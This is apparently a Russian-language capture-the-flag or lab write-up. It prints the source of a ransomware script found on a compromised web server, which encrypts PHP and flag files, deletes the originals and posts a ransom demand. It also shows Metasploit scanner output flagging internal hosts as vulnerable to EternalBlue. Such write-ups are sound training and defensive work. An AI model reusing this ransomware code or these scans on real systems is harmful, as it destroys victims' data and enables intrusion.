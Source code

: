 
Флаг: `Accidit in puncto, quod non speratur in anno.` *(В один миг случается то, на что не надеешься и годами)*


Дополнительно:
- вернуть файл `/etc/motd` в изначальное состояние.
- так же после открытия доступа к сурикате нашли сорцы `encr.sh`

```bash=
#!/bin/bash

iv=`cat /dev/urandom | tr -cd 'A-F0-9' | head -c 32`
pass=`cat /dev/urandom | tr -cd 'A-F0-9' | head -c 10`
dirwalk=/var/www/html
files=`find $dirwalk -maxdepth 1 -type f | grep -P ".php$|FLAG.txt$"`
for f in $files
do
    outfile=$f.encr
    openssl enc -aes-256-cbc -a -salt -in $f -out $outfile -pass pass:$pass -iv $iv
    rm $f
done
	echo "Oh! Hello there! You've been infected by GachiRansom, send 300$ to paypal:b.harrington@gmail.com to get your unecnryption key." | wall
	echo "Oh! Hello there! You've been infected by GachiRansom, send 300$ to paypal:b.harrington@gmail.com to get your unecnryption key." > /etc/motd

exit 0
```


## EternalBlue

Проверив некоторые хосты, обнаружим что они уязвимы для EternalBlue (CVE-2017-0144). Стоит так-же отметить, что все нижеперечисленные машины так-же уязвимы к CVE-2012-0002 и CVE-2012-0152

```
rhosts => 10.11.2.12
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 10.11.2.12:445        - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.11.2.12:445        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```
rhosts => 10.11.4.8
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 10.11.4.8:445         - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.11.4.8:445         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
